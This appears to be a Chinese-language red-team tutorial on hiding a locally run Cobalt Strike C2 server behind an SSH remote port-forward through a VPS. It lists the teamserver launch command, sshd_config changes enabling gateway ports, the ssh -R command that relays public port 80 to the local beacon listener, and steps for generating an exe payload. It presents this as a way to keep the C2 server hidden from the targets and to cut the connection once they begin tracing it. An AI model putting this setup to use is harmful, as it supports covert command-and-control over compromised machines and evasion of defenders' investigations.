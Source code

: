 ```yaml
---
title: "尝试将本地 C2 隐匿于 SSH 加密隧道中"
id: zhfly3649
---
```


# 尝试将本地 C2 隐匿于 SSH 加密隧道中

## 0x01 大致思路拓扑说明

![image](../img/916a359b52890d3f1c84f62c127ee838.png)

> 思路其实非常简单,首先,先在本地把 CobaltStrike 团队服务器 [ 即 C2 服务器 ] 起起来,然后再拿本地的 CobaltStrike 客户端连上去,接着,便是整个过程最关键的一步,建立 ssh 隧道并执行远程端口转发,谁和谁建呢? 也就是 本地的 linux 和 自己的 vps 建,远程转发的意思其实就是,当公网访问 vps 的某个指定端口时,就直接把这个端口的流量转到我本地机器的某个端口上,假如,本地机器机器的这个端口正好是 比如,CobaltStrike 类似这种监听器的端口,这意味着什么就很都清楚了,也就是所谓的本地 C2 beacon 上线，如果弟兄们真正理解了 ssh 隧道的远程转发,其实这些真的都挺简单的,单单只是作为使用者的我们来讲,完全不存在什么太多的技术含量在里面,ok,废话不多讲,来看实际操作

## 0x02 首先,到本地 linux 机器上启动 CobaltStrike 团队服务器[ 即 C2 服务器 ] 和 CobaltStrike 客户端,如下

> 本地启动 CS 团队服务器

```
# ./teamserver 192.168.3.137 admin 
```

![image](../img/1cc9e1c1d4bbde31369730bfcebae570.png)

> 然后启动 CS 客户端连到团队服务器上,并创建一个常规 http 反向监听器,监听 80 端口,注意,反向监听器是直接监听的本地 ip

![image](../img/0fa9da04ccea338cb5223a1e99918702.png)

> 接着,再创建一个 CS 外部监听器[协议,端口要和上面保持一致],这个外部监听器的主要作用就是把回连的流量先弹到我们公网的 VPS 机器上,因为此处全部是用域名在操作,所以,事先务必先添加一条指向 VPS 的 A 记录,如下

![image](../img/cdf1ee0fa64488baf8d62c3e0a4b0ebb.png)

![image](../img/27434cfa86509cb60072c3b72839c4ee.png)

![image](../img/9c69ae6124f646ec0fc09f5e85860eb7.png)

> 最后,再用上面创建的外部监听生成一个 exe payload

![image](../img/0881fd582d121850add4ca589ba75736.png)

## 0x03 其次,开始尝试在 本地 linux 和 vps 机器 之间建立 ssh 隧道并执行 远程端口转发, 如下

> 先开启 vps ssh 转发

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 重启 ssh 服务 
```

> 建立隧道并执行远程转发,即把来自外部的 80 端口流量全部转到本地 192.168.3.137 的 80 端口上,而这个端口正好又是上面事先准备好的 CS 的反向监听器端口,后果就是, beacon 直接上线

```
# ssh -C -f -N -g -R 0.0.0.0:80:192.168.3.137:80 root@mail.first.com -p 22 
```

![image](../img/4b0bbb533edada1e5f04617d37aec36e.png)

> 平时记得养成习惯,远程转发建好以后,就立马就到 vps 上去看看对应端口到底有没有起来,别等了半天,一排查发现,隧道都不通,岂不尴尬,尽量别把时间浪费在这种没必要的地方

![image](../img/b4ab1425ba963ec73c7dfaf561ef73b6.png)

## 0x04 最终,本地 C2 beacon 上线效果

> 如下,从目标机器的网络连接中,几乎是看不到任何的连接痕迹,暂时已经达到了我们的 "隐蔽需求"

![image](../img/ca06d311499a2c83804953772c38b4df.png)

> 从 web log 我们也清晰的看到,走的全部都是本地 ip

![image](../img/7756a653a0c13aa0a771f2ab7ae3a330.png)

## 小结:

至此为止,关于如何利用 ssh 隧道的远程端口转发来深度隐藏 C2 服务器基本也就说完了,实战证明,这种方式的稳定性暂时还是很不错的,相比之前的 C2 隐藏方式,这种方式的优劣势都非常明显,优势就在于避免直接把自己的 C2 服务器暴露在公网中,而且非常的灵活隐蔽, 灵活在哪儿呢? 一旦发现对方可能在溯源, 我们可以立即切断连接,不过,灵活中劣势也同时被凸显了出来,此方式并不适合拿来做长控,只适合临时渗透阶段用[ 比如,你可以暂时拿这种方式渗透,然后再用其它方式长控 ],隐蔽又在哪儿呢? 此处我只演示了最简单的单层 SSH 隧道,其实,在实战中,你完全可以将 SSH 隧道的 远程 和 本地端口转发 灵活配合起来实现多级的 SSH 隧道级联 隐藏,说到这儿,想必弟兄们都已经都很非常了然了,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运